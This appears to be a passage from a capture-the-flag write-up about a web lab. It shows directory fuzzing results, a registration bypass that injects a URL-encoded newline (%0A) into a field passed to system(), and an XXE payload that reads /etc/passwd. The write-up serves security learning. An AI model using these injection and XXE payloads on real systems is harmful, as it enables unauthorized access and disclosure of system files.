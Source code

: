 ```
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.php                    [Status: 403, Size: 284, Words: 21, Lines: 11, Duration: 161ms]
register.php            [Status: 200, Size: 715, Words: 49, Lines: 28, Duration: 163ms]
index.html              [Status: 200, Size: 406, Words: 138, Lines: 25, Duration: 1106ms]
.html                   [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 6138ms]
admin.php               [Status: 200, Size: 663, Words: 45, Lines: 26, Duration: 210ms]
scripts                 [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 187ms]
forms.php               [Status: 200, Size: 2334, Words: 460, Lines: 112, Duration: 258ms]
report                  [Status: 200, Size: 16912, Words: 69, Lines: 21, Duration: 159ms]
logout.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 245ms]
dashboard.php           [Status: 302, Size: 908, Words: 87, Lines: 56, Duration: 164ms]
```

Let's go to `register.php`:

![](cybersecurity/images/Pasted%2520image%252020250425125731.png)

Let's submit the request to our proxy to handle it better:


![](cybersecurity/images/Pasted%2520image%252020250425130038.png)

As we can notice, it does not allow us to register with `admin@bank.a`, but, if we recall the strings correctly, this is using `system()`, which mean that if we are able to do it correctly, our commands may be interpreted and we can inject stuff like `%0A` or `%09`, let's try it out:


![](cybersecurity/images/Pasted%2520image%252020250425130239.png)

There we go `%0A` seems to do the trick, let's go inside the admin panel:

![](cybersecurity/images/Pasted%2520image%252020250425130320.png)


The `command` one seems odd, let's check it out:

![](cybersecurity/images/Pasted%2520image%252020250425130350.png)

Once again, let's submit to our proxy:

![](cybersecurity/images/Pasted%2520image%252020250425130433.png)

The format of it may suggest it is vulnerable to `XXE`, let's try some stuff then, for example, a basic `LFI`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <name>
&xxe;</name>
<search>&xxe;
</search>
</root>
```
